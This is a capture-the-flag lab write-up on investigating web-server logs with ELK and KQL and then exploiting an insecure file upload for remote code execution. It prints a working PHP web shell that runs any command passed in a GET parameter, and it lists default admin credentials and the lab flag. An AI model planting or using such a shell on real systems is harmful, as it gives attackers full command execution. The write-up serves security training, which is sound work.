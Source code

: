 # Day 3

## Learning Objectives
- Learn about Log analysis and tools like ELK.
- Learn about KQL and how it can be used to investigate logs using ELK.
- Learn about RCE (Remote Code Execution), and how this can be done via insecure file upload.

Our Challenge for this week is two-fold. We'll explore both the Red and Blue team side of things

## Using ELK

ELK stands for Elasticsearch, Logstash, and Kibana. These are three open-source tools that are commonly used together to collect, store, analyse, and visualise data.

KQL, or Kibana Query Language, is an easy-to-use language that can be used to search documents for values.

## Approach 

So I opened the website and went to the discover page and changed the collection to `wareville rails`

1. Changed the time to `0ct 1 2024 00:00:00:000 to Oct 2 2024 00:00:00:000`

We want to investigate the activity of `IP address 10.9.98.230` for that I set the filter on `clientip`

2. I saw that there were many `shell.PHP` programs which was suspicious. Then I used the query `message: shell.php` to search for all queries of containing shell.php

3. Now we get to the `Operation Red` side of things which analyzes the attack and how it was carried out.

**RCE(Remote Code Execution**: Uploading a script that the server runs gives the attacker control over it. Remote code execution (RCE) happens when an attacker finds a way to run their own code on a system. 


## Blue Side Approach

`Q1 : Where was the Web Shell uploaded to?`

So first I gave the query `message : shell.php` and checked that were 2 IP addresses using clientIP. There I saw that 1 IP address had hardly any activity so I ignored it and looked at the other one.

This IP(**10.11.83.34**) was actually running commands so it must be this one and it's filepath was `/media/images/rooms/shell.php`

## Red Side Approach

I opened nano and we want to edit the `hosts` file in the `etc` folder.

I pasted the website's address into it.

Okay so now I opened the website and logged in through the default attacker credentials `admin@frostypines.thm` and `password : admin`. 

Through this I was logged in as admin. I natigated to the Rooms page and clicked on `Add Room`

There we had an option to upload files. And I injected the given shell script(shell.php) into it.

``` php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

We know that our shell has been stored in `/media/images/rooms` through our Blue team approach. Now I opened that URL and found a input box.

Then I gave the  `ls command` and saw all the files in it. One of them was `flag.txt`. I used the  `cat command` on flag.txt to check it's contents.

From this I got the flag : `THM{Gl1tch_Was_H3r3}`

![alt text](./Images/Day3(1).png)




